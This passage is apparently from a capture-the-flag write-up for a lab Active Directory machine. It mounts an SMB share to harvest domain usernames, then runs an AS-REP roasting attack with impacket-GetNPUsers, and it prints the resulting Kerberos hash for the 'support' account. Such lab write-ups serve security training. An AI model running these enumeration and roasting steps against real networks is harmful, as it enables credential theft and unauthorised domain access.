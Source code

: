 All right, we now have a full list of domain usernames. In my case, I’ll copy them all and pass them to DeepSeek to generate a formatted list. 🌚

Alternatively, we can mount the SMB share on our machine and use `ls -1` to obtain the proper format for our wordlist.

````bash
❯ mount -t cifs //10.10.10.192/profiles$ /mnt
Password for root@//10.10.10.192/profiles$: 

❯ mv users users.new; ls -1 /mnt/ >users
❯ cat users
 File: users
───────┼──────────────────────────────────────────────────────────────────────────────────
   1   │ AAlleni
   2   │ ABarteski
   3   │ ABekesz
   4   │ ABenzies
   5   │ ABiemiller
   6   │ AChampken
   7   │ ACheretei
   8   │ ACsonaki
   9   │ AHigchens
  10   │ AJaquemai
  11   │ AKlado
  12   │ AKoffenburger
  13   │ AKollolli
  14   │ AKruppe
  15   │ AKubale
  16   │ ALamerz
  17   │ AMaceldon
  18   │ AMasalunga
  19   │ ANavay
  (continue...)
````

## FOOTHOLD
---
### AS-REP roast
---
With the list of usernames, we will attempt an **AS-REP roasting attack**.

AS-REP roasting is a technique that targets accounts with **pre-authentication disabled** in Kerberos. This allows us to request an authentication response (AS-REP) without providing valid credentials, potentially retrieving a **Ticket Granting Ticket** that can be cracked offline.

````bash
❯ impacket-GetNPUsers BLACKFIELD.local/ -dc-ip 10.10.10.192 -usersfile users -format hashcat -no-pass

$krb5asrep$23$support@BLACKFIELD.LOCAL:52a58693d0317117ea1443f96fc60d74$afaab01aa7e9ba833f5dad0dc68e023f295d8c3144cf38a5eaadbf2a5b2061fb3115eaa3a706482459eec3fd978833d348c422c73934c6eadc5867176196f0bf3ce9dc2c10d3dc2c94fe6f490256b251e38d87f207b256fe4552f7b1ad8fb092fa0903c3c2ed2729264136049023f91fa3c0f89f82995da98076b936e7799582790116bbbdcc39a4752d911340c5862b4ff44692e130add4d31cba089cf8982b7676f65390e323e9f4e91f5973e580782cbfff5cfa478a764ef4fa1810a1cb71602c2d4c9faf6946f606f67086ebb059241f1963bf1acc90f43cf74decd23da6d97d62b983d19686cb7d900c120dba7ff9c6a2ea
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
````
